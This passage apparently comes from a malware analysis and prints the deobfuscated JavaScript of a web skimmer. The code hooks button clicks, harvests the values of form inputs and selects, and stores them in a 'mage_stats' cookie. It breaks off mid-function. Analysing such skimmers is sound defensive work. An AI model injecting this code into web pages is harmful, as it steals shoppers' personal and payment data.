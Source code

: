<h6>The main function executed begins to crawl all the fields of the pages and add to the cookie the data.</h6>

 ```js
 function main()
{
 var b=document["getElementsByTagName"]("button");
 for(i= 0;i< b["length"];i++)
 {
  b[i]["addEventListener"]("click",function()
  {
    var Data="";
    var f=document["getElementsByTagName"]("form");
    document["cookie"]= "mage_stats="+ "$"+ "; path=/";
    for(z= 0;z< f["length"];z++)
    {
     var inp=f[z]["getElementsByTagName"]("input");
     var elements=f[z]["getElementsByTagName"]("select");
     for(x= 0;x< inp["length"];x++)
     {
      if(inp[x]["value"]&& inp[x]["value"]!= ""&& inp[x]["type"]!= "radio"&& inp[x]["type"]!= "hidden"&& inp[x]["id"]!= "search"&& inp[x]["value"]!= "submit")
      {
       if(inp[x]["name"]&& inp[x]["name"]!= "")
       {
         var d=Push_Data("mage_stats");
         d+= inp[x]["name"]+ ":"+ inp[x]["value"]+ "|";
         document["cookie"]= "mage_stats="+ d+ "; path=/";
       }
       else 
       {
        var d=Push_Data("mage_stats");
        d+= inp[x]["id"]+ ":"+ inp[x]["value"]+ "|";
        document["cookie"]= "mage_stats="+ d+ "; path=/";
       }
      }
     };
     for(x= 0;x< elements["length"];x++)
     {
      if(elements[x]["value"]&& elements[x]["value"]!= ""&& elements[x]["type"]!= "radio"&& elements[x]["type"]!= "hidden"&& elements[x]["id"]!= "search"&& elements[x]["value"]!= "submit")
      {
       if(elements[x]["name"]&& elements[x]["name"]!= "")
       {
        var d=Push_Data("mage_stats");
        d+= elements[x]["name"]+ ":"+ elements[x]["value"]+ "|";
        document["cookie"]= "mage_stats="+ d+ "; path=/";
       }
       else 
       {
         var d=Push_Data("mage_stats");
         d+= elements[x]["id"]+ ":"+ elements[x]["value"]+ "|";
         document["cookie"]= "mage_stats="+ d+ "; path=/";
         document["cookie"]= "mage_stats="+ d+ "; path=/";
       }
      }
     }
    };
 ```

